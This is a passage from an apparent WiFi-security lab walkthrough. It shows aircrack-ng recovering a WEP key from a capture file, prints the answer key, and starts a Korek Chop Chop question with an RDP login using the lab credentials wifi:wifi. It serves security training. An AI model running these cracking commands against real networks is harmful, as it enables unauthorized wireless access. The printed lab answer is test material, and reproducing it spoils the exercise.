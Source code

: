 ```
```

After a while, students will terminate both processes (`airplay-ng` and `airodump-ng`) with the key combination of `CTRL + C`. Subsequently, they will use `aircrack-ng` along with the access point's MAC address and the packet capture `Student-01.cap` to retrieve the key:

Code: shell

```shell
aircrack-ng -b D8:D6:3D:EB:29:D5 Student-01.cap
```

```
wifi@WiFiIntro:~$ aircrack-ng -b D8:D6:3D:EB:29:D5 Student-01.cap

Reading packets, please wait...
Opening Student-01.cap
Read 241092 packets.

1 potential targets                              Got 80317 out of 80000 IVsStarting PTW attack with 80317 ivs.
                     KEY FOUND! [ {hidden} ] 
Attack wDecrypted correctly: 100%00 captured ivs.
```

Answer: `2B:51:5A:7E:F4`

# Korek Chop Chop Attack

## Question 1

### "Perform the Korek Chop Chop attack on the WiFi network. What is the WEP KEY for this network? (Format: XX:XX:XX:XX:XX)"

After spawning the target, students will establish an RDP connection using the credentials `wifi:wifi`:

Code: shell

```shell
xfreerdp /v:STMIP /u:wifi /p:wifi /dynamic-resolution
```

```
┌─[eu-academy-3]─[10.10.14.62]─[htb-ac-8414@htb-arbj7vt9or]─[~]
└──╼ [★]$ xfreerdp /v:10.129.231.131 /u:wifi /p:wifi /dynamic-resolution 

[02:02:42:399] [16262:16263] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[02:02:43:700] [16262:16263] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[02:02:43:700] [16262:16263] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[02:02:43:715] [16262:16263] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[02:02:43:715] [16262:16263] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[02:02:43:715] [16262:16263] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel disp
```
